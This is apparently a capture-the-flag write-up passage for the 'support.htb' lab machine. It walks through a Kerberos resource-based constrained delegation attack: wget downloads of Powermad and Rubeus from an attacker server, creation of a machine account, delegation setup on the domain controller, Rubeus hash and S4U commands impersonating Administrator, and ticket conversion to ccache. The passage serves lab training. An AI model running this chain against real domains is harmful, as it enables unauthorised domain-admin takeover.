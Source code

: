 Q11: What is the name of the environment variable on our local system that we'll set to that ccache file to allow use of files like psexec.py with the -k and -no-pass options?
- we will need below tools to perform the attack
```
wget http://10.10.16.20:8000/Powermad.ps1 -o Powermad.ps1
## Rubeus can be downloaded via sudo apt install rubeus on Kali
wget http://10.10.16.20:8000/Rubeus.exe -o Rubeus.exe
```
- Below are the chain of commands
```
## On target via evil-winrm
## create a new machine account
New-MachineAccount -MachineAccount Attacker-COMP -Password $(ConvertTo-SecureString 'Summer2018' -AsPlainText -Force)

## verify the account
Get-ADComputer -identity Attacker-COMP

## set PrincipalsAllowedToDelegateToAccount to new machine account
## requires import-module ./Powermad.ps1
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount Attacker-COMP$

## run Rubeus to get the rc4_hmac hash
*Evil-WinRM* PS C:\Users\support\Documents> .\Rubeus.exe hash /password:Summer2018 /user:Attacker-COMP$ /domain:support.htb

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0


[*] Action: Calculate Password Hash(es)

[*] Input password             : Summer2018
[*] Input username             : Attacker-COMP$
[*] Input domain               : support.htb
[*] Salt                       : SUPPORT.HTBhostattacker-comp.support.htb
[*]       rc4_hmac             : 7F4F718D5029000926A9278C5CFD0872
[*]       aes128_cts_hmac_sha1 : 9257A219F77B87737980CC342CCD506F
[*]       aes256_cts_hmac_sha1 : 5305A5991424610D07FBEA696244A575866F7F8D301DD00F503DFF11137D68F6
[*]       des_cbc_md5          : 6D6783E085B96897

## perform the s4u attack 
## save the last ticket named base64(ticket.kirbi) for SPN 'cifs/dc.support.htb'
./Rubeus.exe s4u /user:Attacker-COMP$ /rc4:7F4F718D5029000926A9278C5CFD0872 /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt
```
- once we have saved the last ticket on our end, we can then perform the ptt with the ticket
- **NOTE** - need to remove all whitespaces when coping the ticket across
- **NOTE** - if error arises with regard to SMB `STATUS_MORE_PROCESSING_REQUIRED`, you will need to sync the machine time with the DC
```
## on attacker
## decodes the ticket generated 
$ base64 -d ticket1 > ticket.kirbi

## converts ticket.kirbi into ccache format
$ impacket-ticketConverter ticket.kirbi ticket.ccache

## sync local time with DC time
```